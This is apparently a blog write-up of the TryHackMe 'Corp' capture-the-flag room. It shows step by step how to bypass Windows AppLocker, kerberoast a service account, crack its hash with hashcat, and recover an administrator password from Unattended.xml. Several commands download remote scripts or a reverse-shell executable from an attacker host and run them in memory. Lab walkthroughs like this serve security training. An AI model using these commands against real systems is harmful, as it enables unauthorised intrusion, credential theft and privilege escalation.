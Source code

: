 ```yaml
---
layout: post
title: Corp
published: true
---
```


Bypass Windows Applocker and escalate your privileges. You will learn about kerberoasting, evading AV, bypassing applocker and escalating your privileges on a Windows system.

[https://tryhackme.com/room/corp](https://tryhackme.com/room/corp)

![](/assets/hacking-group.jpg)

* * *

## Task 1 - Deploy the Windows machine 

In this room we will learn the following:

- Windows Forensics
- Basics of kerberoasting
- AV Evading
- Applocker

* * * 

## Task 2 - Bypassing Applocker 

AppLocker is an application whitelisting technology introduced with Windows 7. It allows restricting which programs users can execute based on the programs path, publisher and hash.

You will have noticed with the deployed machine, you are unable to execute your own binaries and certain functions on the system will be restricted.

##   Answer the questions below

There are many ways to bypass AppLocker.

**If AppLocker is configured with default AppLocker rules, we can bypass it by placing our executable in the following directory: C:\Windows\System32\spool\drivers\color - This is whitelisted by default.**

Go ahead and use Powershell to download an executable of your choice locally, place it the whitelisted directory and execute it.

1. ``cd "C:\Windows\System32\spool\drivers\color"``
2. ``Invoke-WebRequest http://10.x.x.x/reverse.exe``

Just like Linux bash, Windows powershell saves all previous commands into a file called ConsoleHost_history. This is located at %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt

**Access the file and and obtain the flag.**

- ``Get-Content "C:\Users\dark\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt"``

* * * 

## Task 3 - Kerberoasting 

Kerberos is the authentication system for Windows and Active Directory networks. In this room we will use a Powershell script to request a service ticket for an account and acquire a ticket hash.

##   Answer the questions below

Lets first enumerate Windows. If we run ``setspn -T Corp -Q */*`` we can extract all accounts in the SPN.

SPN is the Service Principal Name, and is the mapping between service and account.

**Running that command, we find an existing SPN. What user is that for?**

- fela

![](/assets/corp01.png)

Now we have seen there is an SPN for a user, we can use Invoke-Kerberoast and get a ticket.

Lets first get the Powershell Invoke-Kerberoast script.

- ``iex(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1')``

Now lets load this into memory: ``Invoke-Kerberoast -OutputFormat hashcat |fl``

Or better yet

- ``Invoke-Kerberoast -OutputFormat hashcat | Select-Object -ExpandProperty Hash | Out-File -FilePath "C:\Users\dark\Desktop\hash.txt"``

You should get a SPN ticket.

![](/assets/corp02.png)

Lets use hashcat to bruteforce this password. The type of hash we're cracking is Kerberos 5 TGS-REP etype 23 and the hashcat code for this is 13100.

- ``hashcat -m 13100 -a 0 hash.txt /usr/share/seclists/Passwords/rockyou.txt --force``

**Crack the hash. What is the users password in plain text?**

![](/assets/corp03.png)

**Login as this user. What is his flag?**

![](/assets/corp04.png)

* * * 

## Task 4 - Privilege Escalation 

We will use a PowerShell enumeration script to examine the Windows machine. We can then determine the best way to get Administrator access.

##   Answer the questions below

We will run PowerUp.ps1 for the enumeration.

Lets load PowerUp1.ps1 into memory.

- ``iex(New-Object Net.WebClient).DownloadString('http://10.x.x.x/PowerUp.ps1')``

The script has identified several ways to get Administrator access. The first being to bypassUAC and the second is UnattendedPath. We will be exploiting the UnattendPath way.

"Unattended Setup is the method by which original equipment manufacturers (OEMs), corporations, and other users install Windows NT in unattended mode." [Read more about it here](https://support.microsoft.com/en-us/topic/77504e1d-2b75-5be1-3eef-cec3617cc461).

It is also where users passwords are stored in base64. Navigate to C:\Windows\Panther\Unattend\Unattended.xml.

**What is the decoded password?**

- ``base64 -d adminhash.txt``

**Now we have the Administrator's password, login as them and obtain the last flag.**

![](/assets/corp05.png)

* * * 